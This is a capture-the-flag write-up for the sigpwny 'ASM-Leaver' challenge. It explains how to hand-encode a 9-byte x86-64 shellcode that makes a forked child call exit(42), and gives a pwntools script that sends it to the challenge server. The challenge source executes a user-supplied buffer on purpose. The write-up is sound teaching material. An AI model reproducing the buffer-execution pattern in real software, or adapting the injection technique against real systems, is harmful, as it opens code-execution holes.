







<div align="center">

# ✍️ ASM-Leaver

### Binary Exploitation Writeup · sigpwny CTF · Writing a Complete Shellcode From Scratch


*No pre-built scaffolding this time — just 16 empty bytes and a syscall to reach.*

</div>

---

## 📌 TL;DR

This is the sequel to **ASM Adder**. That challenge only needed one patched instruction dropped into a pre-built chain; this one hands us a completely empty 16-byte buffer and executes it as-is — the entire shellcode has to be written from scratch. The goal is a child process that calls `exit(42)`, which at the syscall level is just three instructions: load `60` into `rax`, load `42` into `rdi`, then `syscall`. Hand-encoded, that's **9 bytes**, comfortably inside the 16-byte budget, with zero dependency on an external assembler.

```python
p.sendline(b'\xb0\x3c\xbf\x2a\x00\x00\x00\x0f\x05')
```

| | |
|---|---|
| **Vulnerability class** | Direct code injection — a data buffer is cast to a function pointer and executed, with no pre-built scaffolding at all this time |
| **Constraint** | 16 bytes of buffer, zero-initialized, executed exactly as sent |
| **Goal** | A full, self-contained `exit(42)` syscall sequence |
| **Solution** | 3 instructions, 9 bytes: `B0 3C BF 2A 00 00 00 0F 05` |
| **Flag mechanism** | Parent reads `WEXITSTATUS()`; if it equals `42`, it prints `flag.txt` |

---

## 🗺️ Table of Contents

1. [Challenge](#1--challenge)
2. [Comparison With ASM Adder](#2--comparison-with-the-previous-challenge-asm-adder)
3. [Goal](#3--goal)
4. [Key Insight: Initial Register State](#4--key-insight-initial-register-state)
5. [Designing the Shellcode](#5--designing-the-shellcode)
6. [Manual Byte Breakdown](#6--manual-byte-breakdown)
7. [Exploit Development](#7--exploit-development--a-real-world-hiccup)
8. [Final Execution Chain](#8--execution-chain-in-the-child-process)
9. [Final Exploit](#9--final-exploit)
10. [Key Concepts Learned](#10--key-concepts-learned)
11. [General Notes for This Challenge Series](#11--general-notes-for-the-rest-of-this-challenge-series)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🎯 Challenge

This challenge is the sequel to **ASM Adder**. This time there's no pre-written setup or closing instructions — the entire shellcode has to be written from scratch, inside a 16-byte buffer, to make a child process exit with code `42`.

```
nc chal.sigpwny.com 9001
```

### Source Code

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <string.h>

#define bufsize 16

int main() {
  // Buffer Cleanup
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);

  // makes a child process that the parent keeps track of.
  pid_t a = fork();
  if (a){
    // This is the parent process!
    int status;
    // Wait for the child to exit and get its status code
    wait(&status);
    int a = WEXITSTATUS(status);

    // If the exit code was 42, open the flag file and print out its contents
    printf("My partner exited with: %d\n", a);
    if (a == 42){
        FILE *fptr;
        fptr = fopen("./flag.txt", "r");
        char* line = NULL;
        size_t len = 0;
        getline(&line, &len, fptr);
        printf("%s", line);
    }
  }
  else {
    // This is the child process!
    char* resp = "Give me code:";
    write(1, resp, strlen(resp));
    char code[bufsize];
    memset(code, 0, bufsize);
    // Read in the shellcode.
    read(0, code, bufsize);

    // Close all the buffers to be safe :)
    close(0); close(1);

    // Create a function out of the buffer, then call the function.
    int (*foo)() = (int(*)())code;
    foo();
    exit(10);
  }
}
```

---

## 2. ⚖️ Comparison With the Previous Challenge (ASM Adder)



| | Challenge 1 (ASM Adder) | Challenge 2 (this one) |
|---|---|---|
| Buffer size | 8 bytes | **16 bytes** |
| Pre-written `setup` code | Yes (`mov al,0x3c` + `mov di,0x10`) | **None** |
| Pre-written `post` code (`syscall`) | Yes | **None** |
| Target exit code | 112 | **42** |
| What gets executed | Only our buffer, injected into a pre-built chain | The **entire** shellcode is ours to write |

There's no `setup` or `post` array this time. The buffer `code` is zero-filled (`memset(code, 0, bufsize)`), and whatever we send is executed exactly as-is:

```c
char code[bufsize];
memset(code, 0, bufsize);
read(0, code, bufsize);
close(0); close(1);
int (*foo)() = (int(*)())code;
foo();
```

This means we have to write the **complete shellcode ourselves** — not just a single instruction to patch an existing chain.

---

## 3. 🧮 Goal

We need a self-contained shellcode that calls:

```c
exit(42);
```

Which, at the syscall level, means:

```asm
mov rax, 60    ; syscall number for exit
mov rdi, 42    ; exit code
syscall
```

And it all has to fit inside **16 bytes or fewer**.

---

## 4. 🔑 Key Insight: Initial Register State

Before writing the instructions, it matters to know what `rax` looks like at the moment `foo()` is called.



This code runs in the **child process created by `fork()`**. The return value of the `fork` syscall (number 57) is placed in `rax`, and in the child, that value is always **0** (unlike the parent, which gets the child's PID). So by the time `foo()` runs, `rax` is already **zero — not garbage**.

This means setting `rax = 60` only requires touching the low byte (`al`), since the upper bytes are already clean — exactly like in the previous challenge.

---

## 5. 🛠️ Designing the Shellcode

### Option A: Minimal byte count with small registers

```asm
mov al, 0x3c       ; sets rax = 60
mov dil, 0x2a       ; requires a REX prefix since DIL is a newer x86-64 register
syscall
```

### Option B (chosen): Simpler and safer with a 32-bit register

```asm
mov al, 0x3c       ; B0 3C          (2 bytes)
mov edi, 42        ; BF 2A 00 00 00 (5 bytes)
syscall            ; 0F 05          (2 bytes)
```

Total: **9 bytes** — comfortably under the 16-byte limit.



**Why Option B is preferred:** writing a 32-bit register like `edi` has a very useful side effect in x86-64 — the CPU **automatically zeroes the upper 32 bits of the full 64-bit register (`rdi`)**. So there's no need to worry about leftover garbage in the upper half of `rdi`; it's handled for free. This is different from something like `mov dil, ...`, which only touches a single byte and leaves the rest of the register untouched (the same "dirty upper bits" issue discussed with `al` in the previous challenge).

---

## 6. ⚙️ Manual Byte Breakdown

| Instruction | Bytes (hex) |
|---|---|
| `mov al, 0x3c` | `B0 3C` |
| `mov edi, 42` | `BF 2A 00 00 00` |
| `syscall` | `0F 05` |

Final shellcode:

```
B0 3C BF 2A 00 00 00 0F 05
```

(9 bytes total) — confirmed by round-tripping these exact bytes through `objdump` in disassembler mode, which echoes back `mov al,0x3c`, `mov edi,0x2a`, `syscall` precisely.



---

## 7. 🚀 Exploit Development & a Real-World Hiccup

Since we already hand-derived the exact machine code, there's no need for an external assembler at all:

```python
from pwn import *

p = remote('chal.sigpwny.com', 9001)
p.sendline(b'\xb0\x3c\xbf\x2a\x00\x00\x00\x0f\x05')
p.interactive()
```

This has zero dependency on any installed assembler and worked immediately.

---

## 8. 🔗 Execution Chain in the Child Process



```asm
mov al, 0x3c     ; rax = 60 (sys_exit)
mov edi, 42      ; edi = 42 (also zeroes the upper 32 bits of rdi)
syscall          ; sys_exit(42) is invoked
```

The child exits with code `42` → the parent detects this via `WEXITSTATUS(status) == 42` → `flag.txt` is printed.

---

## 9. 🏁 Final Exploit

```python
from pwn import *

p = remote('chal.sigpwny.com', 9001)
p.sendline(b'\xb0\x3c\xbf\x2a\x00\x00\x00\x0f\x05')
p.interactive()
```

---

## 10. 🧠 Key Concepts Learned

### 1. The difference between a single encoded instruction and a complete shellcode

A single encoded instruction (e.g. `add di, 0x60` → `66 83 C7 60`, from Part 1) is just one building block. A **shellcode** is a sequence of such encoded instructions, chained together, that accomplishes a complete, self-contained goal (here, calling `exit(42)`) without relying on any compiler, linker, or library function:



### 2. Register state inherited from `fork()`

Since the return value of `fork()` in the child is always `0`, and that value lives in `rax`, we can rely on `rax` already being zero when our shellcode starts executing — meaning we only need to set the low byte (`al`) to get a clean 64-bit value.

### 3. Writing to a 32-bit register zero-extends the full 64-bit register

`mov edi, 42` doesn't just set the low 32 bits of `rdi` — x86-64 automatically zeroes the upper 32 bits too. This makes 32-bit register writes a convenient, "self-cleaning" way to set syscall arguments, compared to partial writes like `mov dil, ...` which leave the rest of the register untouched.

### 4. Minimal shellcode byte-budgeting

With only 16 bytes of buffer space, instruction selection matters: choosing `mov al, imm8` (2 bytes) over a full 64-bit `mov rax, imm64` (10 bytes) is the difference between a payload that fits comfortably and one that doesn't fit at all.

---

## 11. 📋 General Notes for the Rest of This Challenge Series

- When `pwntools.asm()` isn't available (missing/incompatible assembler), fall back to manually encoded raw bytes — this is a core skill, not just a workaround.
- Always check what state (`fork()`, syscall returns, etc.) leaves in registers before assuming you need to zero them explicitly; sometimes the environment does it for you.
- Prefer 32-bit register writes (`mov edi, ...`) over 8-bit partial writes (`mov dil, ...`) when setting syscall arguments in x86-64 — they're simpler to encode (no REX prefix needed) and automatically clear the upper bits.

---


---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
